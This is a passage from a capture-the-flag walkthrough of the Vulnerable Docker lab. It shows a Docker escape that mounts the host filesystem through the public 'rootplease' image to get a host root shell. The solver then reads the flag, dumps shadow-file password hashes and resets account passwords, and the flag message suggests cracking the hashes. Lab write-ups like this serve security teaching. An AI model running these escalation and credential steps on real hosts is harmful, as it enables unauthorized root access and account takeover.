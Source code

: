 ```sh
8f4bca8ef241

root@13f0a3bb2706:~# docker exec -it b90babce1037 hostname
b90babce1037
```

Indeed, we have 3 docker containers: wordpress, database and ssh proxy.

To gain access to docker host filesystem, we could use [this exploit](https://fosterelli.co/privilege-escalation-via-docker.html):

```sh
root@13f0a3bb2706:~# docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
#
```

The flag could be found instantly:

```sh
# ls / 
bin  boot  dev	etc  flag_3  home  initrd.img  lib  lib64  lost+found  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var	vmlinuz
# cat /flag_3
d867a73c70770e73b65e6949dd074285dfdee80a8db333a7528390f6

Awesome so you reached host

Well done

Now the bigger challenge try to understand and fix the bugs.

If you want more attack targets look at the shadow file and try cracking passwords :P

Thanks for playing the challenges we hope you enjoyed all levels

You can send your suggestions bricks bats criticism or appreciations 
on vulndocker@notsosecure.com 
```

We can do little more. Let’s have a look, who has passwords, and change them:

```sh
# vipw -s
root:$6$i8GUrrmW$GE/x1EEwKgMvvTS0IuOfd4jkrP9ufQrYxBdvAXh72ETmC.PZv.0gzb9Fxfs2y5CxmKiJlRUJVr5p0k3TxgPEG0:17394:0:99999:7:::
...
whale:$6$RvS0tNRs$gV2mxTeBwobOo9h1LZ59aGb1Gy7E83.2Lb5IsmPupTKxLqfoLAMLAKPMskQ1s52puOQoXzuLhrhM.j7TkTAxp1:17394:0:99999:7:::

# passwd
(type 123, for example)
# passwd whale
(type 123)
```
